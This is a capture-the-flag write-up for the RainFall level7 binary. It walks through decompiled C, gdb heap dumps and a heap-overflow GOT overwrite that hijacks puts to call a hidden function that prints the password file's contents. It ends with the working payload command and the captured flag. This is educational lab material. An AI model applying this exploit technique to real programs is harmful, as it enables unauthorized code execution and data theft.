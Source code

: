 ## Flag7 README: Finding Flag7

Decompile

``` C
int m()
{
  time_t v0; // eax

  v0 = time(0);
  return printf("%s - %d\n", c, v0);
}

//----- (08048521) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // eax
  void *v5; // [esp+18h] [ebp-8h]
  void *v6; // [esp+1Ch] [ebp-4h]

  v6 = malloc(8u);
  *(_DWORD *)v6 = 1;
  *((_DWORD *)v6 + 1) = malloc(8u);
  v5 = malloc(8u);
  *(_DWORD *)v5 = 2;
  *((_DWORD *)v5 + 1) = malloc(8u);
  strcpy(*((char **)v6 + 1), argv[1]);
  strcpy(*((char **)v5 + 1), argv[2]);
  v3 = fopen("/home/user/level8/.pass", "r");
  fgets(c, 68, v3);
  puts("~~");
  return 0;
}
```
So the idea is how can we read c. And we can see there is some dead code with the function m that read c. What we are going to do is do a got with the puts function. So first what we have to do is search for the heap allocation.

let's see with this test :
run AAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBB
heap :
(gdb) x/64wx 0x804a018 - 16
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x41414141	0x41414141	0x41414141	0x00414141
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x00424242	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f8:	0x00000000	0x00000000	0x00000000	0x00000000

0x804a008:	0x00000001
this is   *(_DWORD *)v6 = 1;
and this 0x0804a018 is the adress of the heap allocation *((_DWORD *)v6 + 1) = malloc(8u);
We can see that there is the adress 0x00000002 is the   *(_DWORD *)v5 = 2; in our code.
this is our ptr 0x0804a038 to the buffer *((_DWORD *)v5 + 1) = malloc(8u);

(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>




(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406

Let's try to overide this adress 0x0804a038 with the adress of our function got (\x28\x99\x04\x08)

(gdb) run $(python -c 'print("\x90" * 20 + "\x28\x99\x04\x08" + " " + "BBBBBBBBBBBBB")')

(gdb) x/64wx 0x804a018 - 16
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a028:	0x90909090	0x08049928	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000


and we can see that now at the adress of our got we have our b :
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x42424242

so what we just have to do is to add the adress of m function and the payload will be
python -c 'print("\x90" * 20 + "\x28\x99\x04\x08" + " " + "\xf4\x84\x04\x08")'
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

level7@RainFall:~$ ./level7 `python -c 'print("\x90" * 20 + "\x28\x99\x04\x08" + " " + "\xf4\x84\x04\x08")'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
